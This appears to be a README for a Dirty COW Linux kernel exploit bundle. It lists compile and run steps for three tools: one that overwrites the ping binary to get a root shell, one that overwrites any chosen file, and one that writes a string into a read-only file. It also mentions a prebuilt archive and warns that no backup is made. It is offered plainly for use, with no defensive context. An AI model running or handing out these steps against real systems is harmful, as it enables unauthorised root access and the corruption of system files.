 # cow_exp
cow exp file2file / default / replace ELF

**[+] cowroot**

1. gcc -o cowroot -O2 -lpthread cowroot.c
2. ./cowroot
3. reboot
4. (RE getshell)ping && id
5. Do what u want do as root
6. Rember done all your stuff and rollback PING (/tmp/bak) <<< this is REAL ping

**[+] cowf2f**

1. gcc -o cowf2f -O2 -lpthread cowf2f.c
2. ./cowf2f [taget-file] [your-file]
3. reboot
4. NO fucking backup!!!

**[+] dirtyc0w**

1. gcc -o dirtyc0w -O2 -lpthread dirtyc0w.c
2. ./dirtyc0w [taget-file] [(Str) blablabla]
3. NO fucking backup!!!

**[+] cow.tar.gz**

3 all in with already build up.
